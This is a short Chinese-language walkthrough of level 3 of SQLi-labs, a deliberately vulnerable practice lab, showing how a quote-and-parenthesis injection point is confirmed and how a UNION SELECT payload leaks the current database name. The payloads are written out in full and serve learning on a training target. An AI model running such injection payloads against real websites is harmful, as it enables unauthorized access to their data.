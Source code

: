 # Sqlilabs

## 第三关-单引号括号

?id=1'发现有括号包裹

![image-20240404102949865](PictureFile/SqliLabs通关.assets/image-20240404102949865.png)

?id=1') and 1=1--+ 页面正常 ?id=1') and 1=2--+ 页面异常,说明存在字符型sql注入

![image-20240404103400162](PictureFile/SqliLabs通关.assets/image-20240404103400162.png)

oderby测出是3列

?id=-1') union select 1,2,database()--+ 爆出当前数据库

![image-20240404104318025](PictureFile/SqliLabs通关.assets/image-20240404104318025.png)
